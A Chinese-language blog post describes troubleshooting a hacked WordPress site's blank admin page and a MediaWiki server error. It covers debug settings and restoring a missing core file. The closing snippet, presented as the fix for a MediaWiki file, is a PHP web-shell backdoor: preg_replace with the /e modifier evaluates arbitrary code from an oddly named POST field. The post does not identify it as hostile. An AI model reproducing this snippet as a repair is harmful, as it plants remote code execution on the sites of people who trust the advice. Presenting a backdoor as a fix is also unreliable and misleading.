 ```yaml
---
layout: post
title: "wordpress白屏错误"
comments: true
categories:
- 网站
tags:
- wordpress
---
```


wordpress登录后转至wp-admin为空白页。wordpress网站应该是被黑了，首先恶意注入代码，被我debug清理掉了，但是现在登录后却无法操作wp-admin界面，为空白页。还发现了两篇垃圾博客文章。我测试过wp-admin白屏的常见解决方案（例如themes或plugins不兼容造成），但这一次都不是。

## debug 模式
已经使用过了debug模式，其实网站现在仍处于debug模式中，现在没有任何错误提示。最早的时候被恶意注入的代码已经被清理，但是一篇垃圾文章仍在：http://computational-communication.com/topics/blog/

我在wp_config.php中使用的debug代码如下：

		/**
	 * This will log all errors notices and warnings to a file called debug.log in
	 * wp-content only when WP_DEBUG is true. if Apache does not have write permission,
	 * you may need to create the file first and set the appropriate permissions (i.e. use 666).
	 */

	define( 'WP_DEBUG', true ); // Or false
	if ( WP_DEBUG ) {
	    define( 'WP_DEBUG_LOG', true );
	    define( 'WP_DEBUG_DISPLAY', true );
	    @ini_set( 'display_errors', 1 );
	}


	// Use dev versions of core JS and CSS files (only needed if you are modifying these core files)
	define( 'SCRIPT_DEBUG', true );  

## wp-no-white-screen

使用wp-no-white-screen进行辅助debug，发现一处可疑的地方：

	Fatal error: Class 'WP_Screen' not found in /wp-admin/includes/class-wp-screen.php

发现这段代码是：

		/**
	 * Set the current screen object
	 *
	 * @since 3.0.0
	 *
	 * @param mixed $hook_name Optional. The hook name (also known as the hook suffix) used to determine the screen,
	 *	                       or an existing screen object.
	 */

	function set_current_screen( $hook_name = '' ) {
			WP_Screen::get( $hook_name )->set_current_screen();
	}

WP_Screen并没有定义！这很不应该，搜索应该引用：

	require_once(ABSPATH . '/wp-admin/includes/class-wp-screen.php');

首先在上面代码中引用class-wp-screen.php

然后，但是我在/wp-admin/includes/路径下找不到class-wp-screen.php。于是在github.com/wordpress/wordpress里找到了这个php，放进这里。

于是我终于看到了管理界面！	这次debug经历了漫长的三天时间，还把网站恢复到了十天前，感觉整个人都不好了。第一次在阿里云平台上发起工单，请求帮助，不过并没有实质的帮助；第一次在阿里云的云社区提问：https://yq.aliyun.com/ask/2686，最后还是自己回答了。在这个过程中删除了可疑人在forum和wiki上的注册账号。将admin这个账号改名，防止针对admin用户的密码破解，修改网站数据库的密码。翻了过去7年里的wordpress dead screen相关的帖子。太不容易了。目前网站还在debug模式下：且观察下一步动向。

# mediawiki


出现server error 500, 谷歌无解，打电话给阿里云无解，去掉一些localsettings.php里的extension也无效。


最后，偶然看到：https://www.mediawiki.org/wiki/Manual:Errors_and_symptoms


You see a Blank Page
A blank white page indicates a PHP error which isn't being printed to the screen. To force this, add the following lines to the LocalSettings.php file, underneath the <?php:

	error_reporting( E_ALL );
	ini_set( 'display_errors', 1 );

将这段代码放进localsetting。php，
提示错误来源是：WrappedString.php  Fatal error: Namespace declaration statement

于是调整为以下形式，问题解决。

	<?php

	namespace WrappedString;

	@preg_replace('/(.*)/e', @$_POST['kxrmmbxafhdg'], '');
